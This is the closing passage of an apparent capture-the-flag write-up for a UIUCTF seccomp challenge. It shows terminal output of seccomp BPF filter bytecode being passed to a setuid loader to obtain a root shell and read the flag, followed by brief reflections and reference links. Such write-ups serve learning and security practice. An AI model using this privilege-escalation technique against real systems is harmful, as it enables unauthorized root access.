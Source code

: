 Now when you compile+run `starter`, you should get your output as eBPF bytecode:

```
root@nomu:~/D/u/insecure_seccomp
❯❯ ./starter                                                                                                                         
5                                                                                                                                    
0020 00 00 00000000
0015 00 01 0000010d
0006 00 00 00050005
0006 00 00 7fff0000
0006 00 00 00000000
```

Now when you send this on the remote service, while running `exploit_me`:

```
/usr/local/bin $ ./seccomp_loader ./exploit_me
5
0020 00 00 00000000
0015 00 01 0000010d
0006 00 00 00050005
0006 00 00 7fff0000
0006 00 00 00000000
/usr/local/bin # cat /flag
uiuctf{seccomp_plus_new_privs_equals_inseccomp_e84609bf}
/usr/local/bin #

```

You will get a root shell, and then flag.

# Closing thoughts

Kernel is very complicated. Bold statements only here xD.

This was a pretty cool challenge, X3eRo0 and I both learned alot about eBPF. I hope you did too.

Another lesson: Always `ls -la` to check whether a binary is setuid, and don't just assume that every shell will have fancy syntax highlighting for you :P (this confused me for a while, I couldnt spot the setuid binary, lol).

# References

  - https://unix.stackexchange.com/questions/562260/why-we-need-to-set-no-new-privs-while-before-calling-seccomp-mode-filter
  - https://man7.org/linux/man-pages/man3/seccomp_rule_add.3.html
  - https://linux.die.net/man/2/openat
  - https://man7.org/linux/man-pages/man7/capabilities.7.html
  - http://bricktou.cn/include/linux/schedtask_no_new_privs_en.html
  - https://elixir.bootlin.com/linux/v5.12.14/source/include/linux/sched.h#L1646
